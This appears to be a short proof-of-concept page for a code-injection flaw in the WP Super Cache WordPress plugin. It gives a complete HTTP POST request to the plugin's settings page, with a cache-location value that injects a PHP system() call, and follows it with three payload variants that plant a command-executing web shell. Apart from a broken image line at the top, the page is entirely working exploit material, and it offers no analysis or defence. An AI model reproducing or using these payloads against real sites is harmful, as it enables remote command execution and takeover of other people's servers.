 POC
---

    POST /wp-admin/options-general.php?page=wpsupercache&tab=settings HTTP/1.1
    User-Agent: Mozilla/5.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 501
    Cookie: [admin cookies]

    _wpnonce=88a432b100&_wp_http_referer=%2Fwp-admin%2Foptions-general.php%3Fpage%3Dwpsupercache%26tab%3Dsettings&action=scupdates&wp_cache_enabled=1&wp_cache_mod_rewrite=0&wp_cache_not_logged_in=2&cache_rebuild_files=1&wp_cache_location=%2Fvar%2Fwww%2Fyour%2Fown%2Fpath%2Fexample.com%2Fwp-content%2Fcache%2F%27%3Bsystem%28%24_GET%5B13%5D%29%3Binclude_once+%5C%27wp-cache-config.php%5C%27%3B%27&_wpnonce=88a432b100&_wp_http_referer=%2Fwp-admin%2Foptions-general.php%3Fpage%3Dwpsupercache%26tab%3Dsettings

Payload
-------

    ';system($_GET[13]);include_once \'wp-cache-config.php\';'

    ';`$_GET[13]`;include_once \'wp-cache-config.php\';?><!--

    ';`$_GET[13]`;#